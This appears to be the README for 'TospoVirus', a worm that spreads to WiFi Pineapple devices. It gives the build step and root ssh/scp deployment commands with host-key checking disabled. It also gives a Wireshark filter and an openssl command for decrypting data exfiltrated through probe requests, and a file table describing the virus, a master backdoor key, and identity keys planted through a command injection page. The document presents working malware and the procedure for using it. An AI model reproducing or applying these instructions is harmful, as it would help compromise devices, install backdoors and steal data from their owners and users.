 Building TospoVirus for Distribution:
------
./build.sh

Distribute to a working pineapple with version 2.3:
------
ssh -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null root@172.16.42.1 "mkdir /tospo"  
scp -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null dist/tv* root@172.16.42.1:/tospo/  
_Note: You'll need to have a configured device OR use the metasploit-module to enable ssh_

Decrypting ex-filtrated data:
------
wireshark filter is:  
(wlan.fc.type_subtype == 0x04) && (wlan_mgt.tag.length == 32)  
printf $(echo "[data copied from wireshark]" | sed -re 's/(..)/\\\\x\1/g') | openssl rsautl -decrypt -inkey tvd.pem

Optionally, use the harvest.py script like so:
python harvest.py [monitor-iface]

Files & Purpose:
------
| File         | Purpose  |
| ------------ | -------- |
| tv           |The virus itself.|
| tvbd         |The "master" backdoor key, do not distribute the private key.|
| tvd          |The disclosure key, used for exfiltrating data via probe requests.|
| tospo_rsa    |The identity private key, specific to each infected device used as the transfer key.|
| tospo_rsa.pub|The identity public key, transferred via the command injection page to allow the private identity to perform actions as root on the remote device.|
| w            |Pushed wireless configuration options, used to restore previous connections.|
| n            |Pushed network configuration options, used to restore previous connections.|
_Note: Files starting with 'tv' are all transferred when infecting a new device. Do not add private keys and the like using names beginning with 'tv' or else your private key will be exposed to forensic analysis._
